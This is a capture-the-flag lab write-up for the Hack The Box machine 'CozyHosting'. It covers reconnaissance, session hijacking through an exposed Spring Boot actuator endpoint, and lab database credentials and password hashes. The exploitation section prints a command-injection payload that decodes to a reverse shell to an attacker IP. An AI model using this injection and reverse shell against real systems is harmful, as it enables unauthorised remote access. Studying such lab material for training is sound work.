









---
tags:
  - box
platform: HTB
os: Linux
difficulty:
date_completed:
mitre_attack: T1190, T1552.001, T1078
status: in-progress
---

## Target

**IP Address:** 10.129.229.88

## Recon

### Port Scan

#Nmap

```bash
sudo nmap -T4 -O -sV -sC -p- -oA cozyHosting 10.129.229.88
```

#### Findings

| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 8.9p1 |
| 80 | HTTP | nginx 1.18.0 |

## Enumeration

Navigating to the website on port 80 returns a webpage for a service called "Cozy Hosting."



The website seems to be running on BootstrapMade, either using their templates or as a hosting service.



I tried to go to the robots.txt page to see if something was there and reached a 404 page listed below.

Given that the page is a "Whitelabel Error Page" it lets me know that the page is running **Spring Boot** and **Java**.



The below image is interesting because it is giving an error code 999, not sure why this is.



If I click on the logo, which says it is taking me to `http://cozyhosting.htb/index.html`, I get a 404 error. This makes me think that the site is not using index.html as its homepage and is using a different structure.

Looking into the Spring Boot structure I may be able to exploit this software if it is improperly set up.

I went to the login page to see what I would get and was greeted with a pretty default looking sign in page, but it does not let me create an account on the page or select a forgot password item.



I found the version of the template that they are using for the login page in the comments of the site.



I fuzzed the website to search for all of the Spring Boot file structure options and found a listing for `/actuator/sessions`, which listed a JSESSION id for a user named kanderson.



## Exploitation

I was then able to grab that JSESSION id and replace mine with it and login to the admin page at `/admin`.





From the admin page, a config field allowed command injection through a base64-encoded reverse shell payload:

```
host=127.0.0.1&username=;echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjMvNDQ0NCAwPiYxCg==|base64${IFS}-d|bash;#
```

This landed a shell and exposed database credentials:

```
username: postgres
password: Vg&nvzAQ7XxR
```

Dumping the app's user table from Postgres:

```
   name    |                           password                            | role
-----------+----------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim    | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm    | Admin
```

Cracked the admin bcrypt hash: `admin:manchesterunited`

josh (a system user) reuses the same password as the admin web account: `josh:manchesterunited`

## Privilege Escalation

<!-- Not reached yet in these notes - picking back up as josh on the box via SSH -->

## Flags

**User:** not yet captured in these notes

**Root/System:** not yet captured

## Lessons Learned

Spring Boot Actuator endpoints (`/actuator/sessions`, `/actuator/env`, etc.) left exposed and unauthenticated are a recurring, high-value misconfiguration - session IDs leaked through `/actuator/sessions` are enough to hijack another user's authenticated session outright. Also a good reminder to always try cracked/found credentials against other accounts on the same box (admin's password worked for josh too).
